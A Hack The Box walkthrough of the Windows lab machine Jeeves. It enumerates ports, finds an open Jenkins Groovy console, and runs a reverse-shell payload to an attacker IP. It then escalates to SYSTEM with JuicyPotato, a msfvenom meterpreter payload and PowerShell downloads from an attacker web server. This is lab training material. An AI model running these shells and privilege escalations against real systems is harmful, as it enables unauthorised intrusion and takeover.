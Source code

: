 # Jeeves - Hack The Box Walkthrough

**Date**: 2024-12-04  

---

## Scope

**Target IP**: `10.10.10.63`  
**Machine Name**: Jeeves  
**OS**: Windows 10 Pro x86

I stored the target IP in a file and added `jeeves.htb` to my `/etc/hosts` for easier access.  

---

## Enumeration

### 1. Port Scanning
I performed an Nmap scan to identify open ports:
```bash
nmap -p- 10.10.10.63 -v -oN nmap/full_tcp_ports_scan.txt
```

**Open Ports**:
```
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
50000/tcp open  ibm-db2
```

### 2. Service Enumeration
I performed a detailed scan of these ports:
```bash
nmap -p80,135,445,50000 -A -T4 -v -oN nmap/service_scan.txt
```

**Key Findings**:
- **Port 80**: Microsoft IIS 10.0 serving a basic webpage titled *Ask Jeeves*.
- **Port 50000**: Running Jetty 9.4.z-SNAPSHOT, presenting an HTTP 404 error.  
- **SMB**:
  - Message signing disabled, which could allow an SMB relay attack:
    ```text
    | smb-security-mode: 
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    ```

---

## HTTP on Port 80

I accessed the webpage at `http://jeeves.htb`. It was a simple HTTP page with no actionable content. Running `ffuf` for directory enumeration yielded no useful results.

---

## HTTP on Port 50000 - Jenkins

Accessing `http://jeeves.htb:50000` returned a 404 error. Using `ffuf` for directory enumeration:
```bash
ffuf -c -u "http://jeeves.htb:50000/FUZZ" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

I discovered the directory `/askjeeves`, leading to a Jenkins instance accessible without credentials:
```text
http://jeeves.htb:50000/askjeeves/
```

---

## Exploitation via Jenkins

Jenkins provides a Groovy script console, which allows remote code execution.  
**Steps**:
1. Navigate to `Manage Jenkins > Script Console`.
2. Generate a reverse shell payload using [Reverse Shell Generator](https://www.revshells.com/):
    ```groovy
    String host="<your_IP>";
    int port=<your_port>;
    String cmd="cmd.exe";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
    Socket s=new Socket(host,port);
    InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
    OutputStream po=p.getOutputStream(),so=s.getOutputStream();
    while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());
    while(pe.available()>0)so.write(pe.read());
    while(si.available()>0)po.write(si.read());
    so.flush();
    po.flush();
    Thread.sleep(50);}
    p.destroy();
    s.close();
    ```
3. Start a listener:
    ```bash
    nc -lvnp 9001
    ```
4. Run the payload in the Jenkins script console.

**Outcome**: Obtained a reverse shell as a low-privileged user and retrieved the **user flag**.

---

## Privilege Escalation

### 1. Token Impersonation via JuicyPotato
#### Initial Findings
Checking privileges revealed `SeImpersonatePrivilege` enabled:
```bash
whoami /priv
```

#### Exploitation
1. **Download JuicyPotato** on a local machine:
   ```bash
   wget "https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe"
   ```
2. **Generate a Meterpreter Reverse Shell**:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=8887 -f exe -o shell.exe
   ```
3. **Start a Web Server**:
   ```bash
   python3 -m http.server 8081
   ```
4. **Transfer Exploits to the Target**:
   ```bash
   cd %TEMP%
   powershell.exe -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri 'http://<your_IP>:8081/JuicyPotato.exe' -OutFile JuicyPotato.exe"
   powershell.exe -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri 'http://<your_IP>:8081/shell.exe' -OutFile shell.exe"
   ```
5. **Start Listener**:
   ```bash
   msfconsole
   use exploit/multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST <your_IP>
   set LPORT 8887
   run
   ```
6. **Run JuicyPotato**:
   ```bash
   .\JuicyPotato.exe -t * -p shell.exe -l 443
   ```

**Outcome**: Obtained a Meterpreter session with `NT AUTHORITY\SYSTEM` privileges.

### 2. Alternate Data Stream (ADS)
Inspecting the administrator's desktop, I found no visible `root.txt`. Running the following command revealed a file with an alternate data stream:
```bash
dir /R
```

**Extracting Root Flag**:
```bash
more < hm.txt:root.txt
```

---

## Summary

1. Discovered Jenkins on port 50000.
2. Exploited Jenkins Groovy Console to gain initial shell and retrieve user flag.
3. Used JuicyPotato to escalate privileges to `SYSTEM`.
4. Retrieved the root flag from an Alternate Data Stream (ADS).

---

## Resources

- [Jenkins Penetration Testing](https://www.hackingarticles.in/jenkins-penetration-testing/)
- [Abusing Jenkins Groovy Script Console to get Shell](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6)
- [Reverse Shell Generator](https://www.revshells.com/)
- [JuicyPotato](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato)
- [Windows Privilege Escalation — Token Impersonation (SeImpersonatePrivilege)](https://usersince99.medium.com/windows-privilege-escalation-token-impersonation-seimpersonateprivilege-364b61017070)

--- 
